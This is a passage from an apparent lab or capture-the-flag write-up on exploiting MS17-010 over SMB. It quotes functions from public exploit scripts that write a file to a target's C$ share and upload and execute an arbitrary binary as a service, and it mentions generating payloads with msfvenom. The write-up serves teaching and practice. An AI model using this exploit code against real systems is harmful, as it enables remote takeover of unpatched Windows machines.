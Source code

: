 Now finally install Impacket:

```

(impacket-venv) oxdf@parrot$ pip install -r requirements.txt
...[snip]...
(impacket-venv) oxdf@parrot$ pip install .
...[snip]...

```

#### Script Analysis

The best MS17-010 Python scripts I know of are from [worawit](https://github.com/worawit/MS17-010). These work well, but are a bit confusing to use. [helviojunior](https://github.com/helviojunior/MS17-010) forked that repo and added a single `send_and_execute.py`, which is really handy. It’s simply an update of the `zzz_exploit.py` script from the original, but it is modified to upload a file and execute it as system.

In `zzz_exploit.py`, there’s a function, `smb_pwn`:

```

def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()
	
	print('creating file c:\\pwned.txt on the target')
	tid2 = smbConn.connectTree('C$')
	fid2 = smbConn.createFile(tid2, '/pwned.txt')
	smbConn.closeFile(tid2, fid2)
	smbConn.disconnectTree(tid2)
	
	#smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
	#service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
	# Note: there are many methods to get shell over SMB admin session
	# a simple method to get shell (but easily to be detected by AV) is
	# executing binary generated by "msfvenom -f exe-service ..."

```

This is the action taken with the exploit. In this case, without mod, it’s creating `C:\pwned.txt` on the target. But the commented out lines show how the functions in this file can be used to also upload to the target (`smb_send_file`) and execute as a service (`service_exec`).

The updated `send_and_execute.py` adds some handling of command line args, and then this function:

```

def send_and_execute(conn, arch):
	smbConn = conn.get_smbconnection()

	filename = "%s.exe" % random_generator(6)
	print "Sending file %s..." % filename

    #In some cases you should change remote file location
    #For example:
    #smb_send_file(smbConn, lfile, 'C', '/windows/temp/%s' % filename)
	#service_exec(conn, r'cmd /c c:\windows\temp\%s' % filename)    
	
	smb_send_file(smbConn, lfile, 'C', '/%s' % filename)
	service_exec(conn, r'cmd /c c:\%s' % filename)

```
